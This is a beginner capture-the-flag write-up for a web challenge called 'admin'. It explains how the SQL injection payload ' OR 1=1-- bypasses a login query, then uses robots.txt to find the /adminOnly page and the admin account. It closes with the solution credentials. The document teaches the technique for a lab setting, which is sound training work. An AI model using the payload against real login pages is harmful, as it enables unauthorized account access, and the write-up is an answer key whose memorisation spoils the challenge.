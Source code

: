 # Challenge Name
admin

# Description
Log me in

# Difficulty
Easy

# Guide
Find out more about SQL Injection before proceeding.
https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/

The following shows SQL statement used. This query checks if there is a user with the given `username` and `password` in the `users` table. 
```
SELECT username FROM users WHERE username = 'username' AND password = 'password'
```

With a quick search for sqli you would find a payload similar to this.

```
' OR 1=1--
```
When this is injected into the username, the query would be as follows.

```
SELECT username FROM users WHERE username = '' OR 1=1--' AND password = 'password'
```
A break down of the query now

`'` is used to end the condition for username with `''`.   
Followed by `OR 1=1` which makes it so that its always true.   
Lastly the `--` which is a SQL comment, therefore ignoring the rest of the query.

Once you managed to login, it suggest that there are other pages.
There is a file commonly used to prevent robots from accessing some areas on the site robots.txt.

From the robots.txt we know that there is `/adminOnly` and user
`admin`.  
We can then login to the admin account and access `/adminOnly` to get the flag.

```
username: admin
password: ' OR 1=1--
```

# Hints
Some files are intentionally hidden from bots :)

Have you heard about SQLI

# Resources
https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/

# Solution
By accessing `/robots.txt` we can find the following information.

```
User-agent: *
Disallow: 
/adminOnly
user:admin
```

We then go back to the login page and bypass the login to the admin account.

```
username: admin
password: ' OR 1=1--
```

Lastly we can go to `/adminOnly` and get the flag.